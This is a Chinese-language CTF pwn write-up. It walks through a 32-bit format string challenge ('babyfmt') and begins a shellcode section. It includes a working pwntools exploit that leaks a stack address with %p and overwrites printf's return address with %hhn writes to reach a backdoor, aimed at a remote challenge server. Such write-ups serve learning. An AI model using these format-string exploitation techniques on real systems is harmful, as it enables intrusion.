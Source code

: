 ![image-20221007000610620](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007000610620.png)

32位，只开了NX

![image-20221007000716956](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007000716956.png)

有后门

题中给了个gift，但是不知道有什么用，后面也想了比较久

最后用了控制执行流，但是 printf 在 无限循环 里面，不可能控制main函数的返回地址，只能想到修改 printf 的函数栈后面的返回地址

gdb调试到printf函数里面

![image-20221007001536080](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007001536080.png)

返回地址对应栈地址为 0xffffd05c

给printf输入%p.%p.%p.%p，再在printf的函数栈里面找到一个比较接近它的值，结果发现printf输出的第一个参数的值就最接近

![image-20221007002530435](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007002530435.png)

反复调试，结果一致，两个地址相差 0x30，用%hhn进行字节修改为后门地址（%n本身为四字节修改，多一个h短一半，两个h就是单字节）

---------貌似可以直接修改got表。（我是彩笔）

exp:

```python
#!/usr/bin/env python3
from pwn import *

io = remote("43.136.137.17",3913)
#io = process("./babyfmt")
context(os = 'linux',arch = 'i386',log_level = 'debug')

io.recvline()

payload1 = b'%p'
io.sendline(payload1)
stack_value = int(eval(str(io.recv(10))),16)
#attach(io)
payload2 = p32(stack_value-0x30) + p32(stack_value-0x2f) + b'%125c%12$hhn' + b'%31c%11$hhn'
io.sendline(payload2)

io.interactive()
```

### shellcode

题面都是shellcode了，应该不会开NX了

![image-20221007003228047](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007003228047.png)

IDA打开，不能F5，但是pwn题还是能看看汇编的
